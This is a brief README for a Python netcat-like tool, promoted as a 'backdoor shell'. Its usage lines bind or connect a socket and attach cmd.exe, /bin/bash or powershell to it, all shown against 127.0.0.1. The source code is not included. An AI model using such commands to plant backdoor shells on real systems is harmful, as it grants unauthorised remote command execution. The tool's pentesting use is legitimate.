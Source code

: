 ## The best python backdoor shell in the world.

We can absolutely sure this is the best PYTHON SHELL in the 
world until now. You try it now.

Python netcat for reverse or bind shell. Py-shell is a custom 
network tool to create backdoor shell (pentesting) and some 
other network purpose like connection testing or remote command 
excution (for who want to help others remotely).

Usage:

**python3 pycat.py -l -p [PORT] -e [FILENAME]**

**python3 pycat.py -t [ADDRESS] -p [PORT] -e [FILENAME]**

****
Example usage:


*python3 pycat.py -l -p 4444*

*python3 pycat.py -t 127.0.0.1 -p 4444*

*python3 pycat.py -l  -p 8080 -e cmd.exe*

*python3 pycat.py -t 127.0.0.1 -p 8080 -e /bin/bash*

*python3 pycat.py -l -p 5000 -e powershell*



Created by toidihack(hacking at HackerOne and Bugcrowd)
 
